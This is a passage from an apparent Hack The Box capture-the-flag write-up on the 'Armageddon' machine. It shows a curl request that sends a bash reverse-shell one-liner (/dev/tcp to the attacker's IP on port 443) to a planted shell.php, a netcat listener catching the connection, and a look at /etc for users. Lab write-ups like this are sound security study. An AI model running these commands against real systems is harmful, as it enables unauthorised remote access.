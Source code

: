 ```
armageddon.htb>> id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

Since I was able to demonstrate that the `curl` command could be modified to leak information, I was able to extend this further

![curl](Images/edit-curl.png)

```
curl -G --data-urlencode "c=bash -i >& /dev/tcp/$HTB_IP/443 0>&1" 'http://$machine_IP/shell.php'
```

I picked this up with a netcat listener and was logged in as the `Apache` entity

```
nc -lvnp 443
listening on [any] 443 ...
connect to [$HTB_IP] from (UNKNOWN) [$machine_IP] 40240
bash: no job control in this shell
bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

Despite being unable to access the `/home` directory due to insufficient permissions, I was able to read the `/etc` file and determine that there was a legitimate user named `Brucetherealadmin`
